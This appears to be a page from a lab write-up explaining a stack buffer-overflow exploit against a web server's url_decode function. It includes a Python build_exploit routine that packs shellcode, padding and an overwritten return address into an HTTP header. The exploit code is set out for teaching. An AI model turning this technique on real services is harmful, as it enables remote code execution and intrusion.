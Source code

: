     With the three elements, we are able to construct our exploit.

    To construct a exploit code, we need to

    1. write the shell code (which is to be executed) to the start of the buffer
    2. fill the rest of the buffer with some arbitrary characters until reaching the address of return value
    3. write the address of the buffer to the address of the return value, thus once returned, the control flow will be directed to execute our code stored at the start of the buffer.

    Thus, our constructed code is:

    ```python
    # unrelevant code
    stack_buffer = 0xbfffdbf4
    stack_retaddr = 0xbfffde0c

    def build_exploit(shellcode):
        fill_code = "A"*(stack_retaddr-stack_buffer-len(shellcode))
        buffer_addr = struct.pack("<I", stack_buffer)
        fd = struct.pack("<I", 3)
        req = "GET / HTTP/1.0\r\n" + \
              "EXP: " + shellcode + fill_code + buffer_addr + fd + "\r\n" \
              "\r\n"
        return req
    ```

    Note that here, we add the code

    ```python
    fd = struct.pack("<I", 3)
    ```

    This is because that the address of the stored file descriptor, fd, is 0xbfffde10, which is adjacent to the stack_retaddr. And the vulnerability we are exploiting is

    ```c
    url_decode(value, sp)
    ```

    If we look carefully at the 'url_decode' function, the function copies 'src' to 'dst' until the termination character '\0', which will overwrite one byte more than the length of exploited string.

    ```c
    else
    {
        *dst = *src;
        src++;

        if (*dst == '\0')
            break;
    }
    ```
    Thus, if we do not add the 'fd' variable, then we write 
    the 'stack_buffer' variable to the address of 0xbfffde0c, occupying the address from 0xbfffde0c to 0xbfffde0f. And after this, the 'url_decode' function writes the termination character '\0' right after 0xbfffde0f, i.e., writing 0x0 to 0xbfffde10, which is exactly the address of 'fd' variable, thus setting it from 3 to 0. This slight little bug will crash the 'http_read_line' function since 'fd = 0' does not exist in the socket connection. 
